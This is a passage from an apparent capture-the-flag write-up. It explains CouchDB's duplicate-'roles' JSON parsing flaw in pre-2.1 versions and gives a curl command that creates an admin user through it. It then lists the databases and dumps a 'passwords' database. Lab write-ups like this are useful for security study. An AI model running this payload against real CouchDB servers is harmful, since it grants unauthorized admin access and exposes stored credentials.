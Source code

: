 After looking into this for a bit, I came across a page<sup>[3]</sup> that talks about how to create admin users in CouchDB in versions older than 2.1 (we are working with 2.0.0 according to the ps output above, so the vulnerability will likely work for us).  Essentially, CouchDB used two different JSON parsers: the Javascript parser used for validation and the internal one used by CouchDB (called jiffy).  When given duplicate records, the Javascript parser will only store the second duplicate.  Jiffy will return the first one.  That means we can create an admin by passing a JSON record with two "roles" fields.  The "roles" field is used to define what roles a user will have.  The first roles field will contain the role we want (_admin).  The second roles field will contain nothing.  The second roles field will pass the validation that the Javascript JSON parser does to make sure we are assigning roles we are allowed to.  The first role field will be read by Jiffy and assigned to our user.

We can run the following command through our script to create the admin user:
```bash
# -H sets the specified header.  CouchDB takes JSON as input for new records.
# -X PUT tells curl to use PUT as the HTTP method.  We need to PUT to get data into the database
# To specify a user, we will give it a name (bartman in this case), assign bartman the role of admin (_admin) with a password of password.
# The last argument is the URL.  /_users/org.couchdb.user is the user database
curl -H 'Content-Type: application/json' -X PUT -d '{"type": "user", "name": "bartman", "roles": ["_admin"], "roles": [], "password": "password"}' http://localhost:5984/_users/org.couchdb.user:bartman
```
![create CouchDB user](screenshots/8_create_couchdb_user.PNG)

We got an "ok" base from the server which means we can start enumerating the database.  I used the following page<sup>[4]</sup> as a reference.  We can use our handy script to execute all of these commands.  We will execute all of the commands as the bartman user we created above.

```bash
# Enumerate all databases
curl http://bartman:password@localhost:5984/_all_dbs

["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
```

The passwords database sounds interesting.  Let's enumerate it:
```bash
# Pull all documents from the passwords database
curl http://bartman:password@localhost:5984/passwords/_all_docs
```
```json
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```


[1]: https://blog.nelhage.com/2011/03/exploiting-pickle/ "Exploiting Pickle"
[2]: http://docs.couchdb.org/en/stable/whatsnew/2.0.html?highlight=5986.html "CouchDB Documentation"
[3]: https://justi.cz/security/2017/11/14/couchdb-rce-npm.html "Remote Code Execution in CouchDB"
[4]: https://www.1and1.com/cloud-community/learn/database/couchdb/working-with-couchdb-from-the-command-line/ "Working With CouchDB from the Command Line"